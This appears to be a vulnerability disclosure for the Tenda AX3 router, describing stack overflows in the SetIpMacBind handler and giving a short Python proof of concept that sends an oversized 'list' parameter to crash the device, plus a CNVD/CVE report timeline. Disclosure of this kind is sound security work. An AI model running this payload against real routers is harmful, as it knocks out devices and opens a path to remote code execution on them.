


## Tenda Router AX3 Vulnerability

There is a vulnerability lies in page /goform/SetIpMacBind,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)).

## Description

Vulnerable function fromSetIpMacBind



The variable v4 is directly obtained directly from the http request parameter list without any sercuity check. 

v4 will be copied to the stack variable s by the strcpy function, resulting in stack overflow.

The stack variable s will be formatted and input into the three stack variables of v20, v16, and v17 through the scanf function, resulting in stack overflow.



Combining the above two vulnerabilities,  attacker can perform remote code execution with crafted overflow data.

## POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetIpMacBind"
bindnum = "3"
var_list = "b" * 0x1000
r = requests.post(url, data={'bindnum': bindnum,'list':var_list})
print(r.content)
```

## Timeline

- 2022-1-14 report to CNVD
- 2022-1-17 report to CVE
